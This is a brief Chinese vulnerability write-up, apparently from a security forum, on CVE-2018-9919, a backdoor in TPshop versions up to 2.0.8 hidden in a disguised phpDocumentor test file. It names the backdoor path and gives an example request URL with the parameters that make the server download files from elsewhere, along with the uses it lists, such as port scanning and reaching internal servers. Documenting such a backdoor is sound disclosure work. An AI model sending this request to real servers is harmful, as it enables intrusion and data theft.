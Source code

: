 # （CVE-2018-9919）Thinkphp Shop后门

> 原文：[https://www.zhihuifly.com/t/topic/3181](https://www.zhihuifly.com/t/topic/3181)

# （CVE-2018-9919）Thinkphp Shop后门

## 一、漏洞简介

该漏洞源于/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php可以将文件下载到其他服务器上。远程攻击者可利用该漏洞获取敏感信息，并可能执行命令。

## 二、漏洞影响

Backdoor in Tpshop <= 2.0.8

## 三、复现过程

攻击者可以利用此漏洞来攻击服务器并增加其特权，例如：下载任意文件PS！扫描网络端口PS！信息检测，攻击内部网络易受攻击的服务器。

http://www.0-sec.org/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save_filename&down_url=download_url&jmmy=decryptpass